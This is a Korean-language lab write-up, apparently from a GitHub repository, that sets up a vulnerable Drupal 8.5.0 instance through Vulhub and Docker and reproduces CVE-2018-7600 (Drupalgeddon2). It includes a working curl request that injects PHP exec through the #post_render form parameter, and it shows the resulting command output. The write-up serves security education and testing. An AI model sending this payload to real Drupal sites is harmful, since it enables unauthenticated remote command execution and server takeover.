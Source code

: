 ![1](https://github.com/user-attachments/assets/752d080c-8e84-442f-8217-00f46c46d776)# CVE-2018-7600 - Drupalgeddon2 Remote Code Execution

## 1. 개요

- **CVE 번호:** CVE-2018-7600
- **취약점 이름:** Drupalgeddon2
- **설명:**
Drupal의 폼 렌더링 시스템에서 발생하는 취약점으로, 인증되지 않은 공격자가 원격에서 임의의 명령어를 실행할 수 있는 RCE(Remote Code Execution) 취약점입니다. Drupal 7.x 및 8.x의 특정 버전에서 발견되었으며, 매우 치명적인 영향도를 갖습니다.

---

## 2. 실습 환경 구성

### 2.1 실습 환경 정보

- **가상 환경:** VirtualBox + Ubuntu 22.04
- **Docker 버전:** 26.1.3
- **Docker Compose:** 1.29.2

### 2.2 취약 환경 구성 절차

```
# Vulhub 저장소 Fork 및 Clone
cd ~
git clone https://github.com/Parkjoonhyeong/vulhub.git
cd vulhub/drupal/CVE-2018-7600

# docker-compose.yml 확인 및 수정 (MySQL 추가)
nano docker-compose.yml
```

`docker-compose.yml` 예시:

![1](https://github.com/user-attachments/assets/a71e2e57-cac7-480b-9236-bbead2b0930f)

```
# 환경 실행
sudo docker-compose up -d
```

![2](https://github.com/user-attachments/assets/d465d54f-49cb-4e4f-949f-d344d7f83049)


### 2.3 컨테이너 상태 확인

```
docker ps
```

정상 상태 예시:

![3](https://github.com/user-attachments/assets/59438a6d-3223-49fc-a669-1a5a9897cce1)


---

## 3. Drupal 설치

1. 브라우저 접속: `http://localhost:8080`
2. Drupal 설치 마법사 단계:
    - Language: English
    - Profile: Standard
    - Database:
        - **Database name:** drupal
        - **Username:** root
        - **Password:** root
        - **Host:** db
        - **Port:** 3306
    - 사이트 정보:
        - Site name: PoC Test Site
        - Admin ID/PW: root / root1234

설치 완료 후 관리자 페이지 진입 가능 상태 확인.

![4](https://github.com/user-attachments/assets/bb5b52e1-8995-4863-8d31-7f4bd3030658)


---

## 4. PoC 실행

### 4.1 공격 요청 (curl 사용)

```
curl -s -X POST "http://localhost:8080/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax" \
-H "Content-Type: application/x-www-form-urlencoded" \
--data "form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id"
```

**이 요청은 Drupal의 `/user/register` 경로에 POST 요청을 보내며, 다음과 같은 방식으로 취약점을 트리거합니다:**

- **`ajax_form=1&_wrapper_format=drupal_ajax`** : Drupal의 Ajax 처리를 유도
- **`element_parents=account/mail/%23value`** : 폼 필드 경로를 지정하여 조작 위치 지정
- **`mail[#post_render][]=exec`** : **`post_render`** 함수로 PHP의 **`exec()`**를 지정
- **`mail[#markup]=id`** : 실행할 명령어로 리눅스의 **`id`** 명령 전달

즉, 폼 렌더링 과정에서 Drupal이 **`exec('id')`**를 실행하도록 만들어 **임의의 명령어 실행**을 유도합니다.

![5](https://github.com/user-attachments/assets/f5ecea2a-0a61-4ff0-8ba1-582be85eaa2a)


### 4.2 결과

```
[{"command":"insert","method":"replaceWith","selector":null,"data":"uid=33(www-data) gid=33(www-data) groups=33(www-data)..."}]
```

응답 JSON 데이터에서 **`data`** 항목에 명령어 실행 결과(**`id`** 출력 결과)가 포함되어 있으며,
이는 Drupal 웹 서버 컨테이너의 리눅스 사용자 정보입니다.

- **`uid=33(www-data)`** : 현재 실행 중인 웹 프로세스의 UID
- **`gid=33(www-data)`** : 그룹 ID 정보

**이는 서버 측 명령어가 실제로 실행되었고, 그 결과가 HTTP 응답에 포함되었음을 보여줍니다.**

> 응답 본문 내에 uid=33(www-data) 등의 리눅스 명령어 실행 결과가 포함되어 있음
> 

## 5. 결론

CVE-2018-7600, 일명 Drupalgeddon2로 불리는 이 취약점은 Drupal의 Ajax 기반 폼 렌더링 처리 과정에서 발생하는 치명적인 RCE(Remote Code Execution) 보안 취약점입니다. 이 취약점은 인증되지 않은 사용자가 단순한 폼 제출만으로 서버 내부의 명령어를 실행할 수 있게 하며, 공격자는 시스템 제어권 획득, 백도어 설치, 추가 공격 경로 확보 등 다양한 악용이 가능합니다.

본 실습에서는 Vulhub 프로젝트를 활용하여 Drupal 8.5.0 기반의 취약 환경을 Docker로 구축하였고, 해당 환경에서 취약한 경로(`/user/register`)로 조작된 Ajax 요청을 전송하여 명령어(`id`) 실행 결과를 확인하였습니다. 이 과정을 통해 다음과 같은 사실을 입증하였습니다:

- Drupal 설치 직후 기본 설정 상태에서도 본 취약점이 악용 가능함을 확인
- `curl`을 통해 간단한 PoC 공격 요청을 구성할 수 있으며,
- 응답 결과에서 실제 리눅스 명령어 실행 결과(`uid=33(www-data)` 등)를 확인하여 RCE 성공을 검증함

이번 실습을 통해 복잡한 리버스 엔지니어링 없이도 웹 취약점만으로 서버에 직접 명령어를 실행할 수 있는 보안 위협의 현실성과, 컨테이너 기반 실습 환경의 재현 가능성 및 교육적 가치를 체감할 수 있었습니다.
